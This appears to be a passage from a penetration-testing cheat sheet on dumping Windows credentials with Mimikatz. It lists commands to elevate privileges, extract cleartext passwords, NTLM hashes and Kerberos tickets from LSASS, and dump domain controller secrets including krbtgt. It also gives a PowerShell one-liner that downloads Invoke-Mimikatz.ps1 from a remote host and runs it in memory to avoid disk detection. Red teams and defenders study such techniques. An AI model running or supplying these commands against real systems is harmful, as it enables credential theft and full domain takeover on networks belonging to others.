 ```bash
```

###### Mimikatz

`Mimikatz` can be used to extract the credentials (cleartext passwords, `LM` /
`NTLM` hashes, `Kerberos` tickets from, etc.) from `LSASS`.

The commands below may be used as a one-liner in the form of
`mimikatz.exe "<COMMAND1>" "<COMMAND2>" "exit"`.

`mimikatz` can be instructed to load the specified `LSASS` dump file and to
execute the specified commands to extract credentials from the loaded `LSASS`
dump in place of the current host `LSASS` process:

```
mimikatz # sekurlsa::minidump <LSASS_FILE>
```

```
# Logs further mimikatz output to the specified file.
mimikatz # log <LOG_FILE>

# If necessary, elevates privileges to "NT AUTHORITY\SYSTEM".
mimikatz # token::elevate

# If necessary, acquires and enables the "SeDebugPrivilege" privilege.
mimikatz # privilege::debug

# Retrieves credentials (cleartext passwords and NTLM hashes) from the msv, tspkg, wdigest, kerberos, ssp and credman providers.
mimikatz # sekurlsa::logonpasswords

# Retrieves the Kerberos tickets, both TGTs and service tickets, from all active sessions.
mimikatz # sekurlsa::tickets

# Dumps credentials on Domain Controllers.
mimikatz # lsadump::lsa /inject
mimikatz # lsadump::lsa /inject /user:<krbtgt | USERNAME>
```

Additionally, the `Invoke-Mimikatz.ps1` `PowerShell` script can be injected
into memory to use `mimikatz` on the targeted host with out uploading a
`mimikatz` binary on disk. However, as of 2020, this approach is flagged by
most `Anti-Virus` solutions.

```Powershell
# If the compromised host can not access internet, Invoke-Mimikatz.ps1 should be hosted on a local website on a attacking machine.
(New-Object System.Net.WebClient).Proxy.Credentials =  [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds;
```

###### lsassy
